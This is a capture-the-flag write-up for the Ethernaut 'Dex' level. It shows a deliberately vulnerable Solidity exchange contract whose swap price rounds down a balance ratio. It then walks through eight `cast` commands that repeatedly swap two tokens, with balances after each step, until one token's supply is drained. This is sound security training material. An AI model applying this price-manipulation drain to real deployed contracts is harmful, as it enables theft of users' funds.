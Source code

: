 ## Dex Level Outline

**Difficulty : 3/10**

The goal of this level is for you to hack the basic DEX contract below and steal the funds by price manipulation.

You will start with 10 tokens of token1 and 10 of token2. The DEX contract starts with 100 of each token.

You will be successful in this level if you manage to drain all of at least 1 of the 2 tokens from the contract, and allow the contract to report a "bad" price of the assets.

```solidity  
// SPDX-License-Identifier: MIT
pragma solidity ^0.6.0;

import "@openzeppelin/contracts/token/ERC20/IERC20.sol";
import "@openzeppelin/contracts/token/ERC20/ERC20.sol";
import '@openzeppelin/contracts/math/SafeMath.sol';

contract Dex  {
  using SafeMath for uint;
  address public token1;
  address public token2;
  constructor(address _token1, address _token2) public {
    token1 = _token1;
    token2 = _token2;
  }

  function swap(address from, address to, uint amount) public {
    require((from == token1 && to == token2) || (from == token2 && to == token1), "Invalid tokens");
    require(IERC20(from).balanceOf(msg.sender) >= amount, "Not enough to swap");
    uint swap_amount = get_swap_price(from, to, amount);
    IERC20(from).transferFrom(msg.sender, address(this), amount);
    IERC20(to).approve(address(this), swap_amount);
    IERC20(to).transferFrom(address(this), msg.sender, swap_amount);
  }

  function add_liquidity(address token_address, uint amount) public{
    IERC20(token_address).transferFrom(msg.sender, address(this), amount);
  }

  function get_swap_price(address from, address to, uint amount) public view returns(uint){
    return((amount * IERC20(to).balanceOf(address(this)))/IERC20(from).balanceOf(address(this)));
  }

  function approve(address spender, uint amount) public {
    SwappableToken(token1).approve(spender, amount);
    SwappableToken(token2).approve(spender, amount);
  }

  function balanceOf(address token, address account) public view returns (uint){
    return IERC20(token).balanceOf(account);
  }
}

contract SwappableToken is ERC20 {
  constructor(string memory name, string memory symbol, uint initialSupply) public ERC20(name, symbol) {
        _mint(msg.sender, initialSupply);
  }
}
```

[Link to level on Ethernaut](https://ethernaut.openzeppelin.com/level/0x0b0276F85EF92432fBd6529E169D9dE4aD337b1F)

## Solution

Because the exchange rate is based on the ratio of `token1` to `token2`, we can **continouly swap the two tokens for each other** till there one of the tokens have no supply left in the contract due to solidity having no floating points.

### Walkthrough
##### 1. Call the dex's approve function so that we can make the swaps
```console
cast send $LEVEL_ADDRESS "approve(address,uint)" $LEVEL_ADDRESS 1000 --gas 90000 --private-key $PRIVATE_KEY
```

##### 2. Let's find the address of token1 and token2
```console
cast call $LEVEL_ADDRESS "token1()"
```
```console
cast call $LEVEL_ADDRESS "token2()"
```

##### 3. Swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 10 --gas 250000 --private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 20

[Dex balance after transaction]
token1 : 110 
token2 : 90
```

##### 4. Swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 20 --gas 250000 \
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 24
token2 : 0

[Dex balance after transaction]
token1 : 86 
token2 : 110
```

##### 5. Swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 24 --gas 250000 \
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 30

[Dex balance after transaction]
token1 : 110 
token2 : 80
```

##### 6. Swap all of our token2 to token1
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 30 --gas 250000 \ 
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 41
token2 : 0 

[Dex balance after transaction]
token1 : 69
token2 : 110
```

##### 7. Swap all of our token1 to token2
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN1_ADDRESS $TOKEN2_ADDRESS 41 --gas 250000 \
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 0
token2 : 65

[Dex balance after transaction]
token1 : 110 
token2 : 45
```

##### 8. We cannot swap 65 `token2` to `token1` as we would expect to receive 158 `token1` in return which is more than the supply in the contract. To drain the contract for all 110 `token1`, we need to swap 45 `token2` to get 110 `token1`
 
```console
cast send $LEVEL_ADDRESS "swap(address,address,uint)" $TOKEN2_ADDRESS $TOKEN1_ADDRESS 45 --gas 250000 \
--private-key $PRIVATE_KEY
```
```
[Our balance after transaction]
token1 : 110
token2 : 20

[Dex balance after transaction]
token1 : 0 
token2 : 90
```

> Dex's token1 supply has now been drained


### [:arrow_left: Back To Main Menu](../)
